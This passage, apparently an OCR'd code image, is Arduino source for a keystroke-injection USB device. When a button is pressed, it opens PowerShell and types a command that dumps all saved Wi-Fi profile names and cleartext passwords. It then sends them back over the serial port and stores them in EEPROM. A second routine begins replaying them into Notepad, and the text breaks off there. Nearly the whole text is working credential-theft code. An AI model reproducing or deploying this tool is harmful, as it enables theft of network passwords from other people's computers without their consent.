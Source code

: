 ```js
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        dispatchingData();
        dispatched = true;
    }
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void extractingData() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("Powershell");
    delay(500);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
    delay(1000);
    Keyboard.println("(netsh wlan show profiles) | Select-String \"\\:(.+)$\" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=\"$name\" key=clear)}  | Select-String \"Key Content\\W+\\:(.+)$\" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table -AutoSize | Out-String -OutVariable dataCaptured");
    delay(500);

    Keyboard.println("$comPort = ((Get-WmiObject -query \"SELECT * FROM Win32_PnPEntity\" | Where {$_.Name -Match \"COM\\d+\"}).name).Split(\"COM\")");
    delay(200);
    Keyboard.println("$comPort = [int]$comPort[$comPort.length - 1].replace(\")\", \"\")");
    delay(200);
    Keyboard.print("$serialObject = new-Object System.IO.Ports.SerialPort COM");
    Keyboard.print("$comPort");
    Keyboard.println(", 9600, None, 8, one");
    delay(200);
    Keyboard.println("$serialObject.Open()");
    delay(200);
    Keyboard.println("$serialObject.Write(\"$dataCaptured\")");
    delay(200);
    Keyboard.println("$serialObject.close()");
    delay(200);
    Keyboard.println("exit");
    delay(200);
    for(int i=0; i<sizeof(stringArray)-1; i++)
        stringArray[i] = Serial.read();
    EEPROM.put(1, stringArray);
}

void dispatchingData() {
    delay(500);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.println("notepad");
    delay(700);
    Keyboard.press(KEY_RETURN);
    delay(200);
    Keyboard.release(KEY_RETURN);
```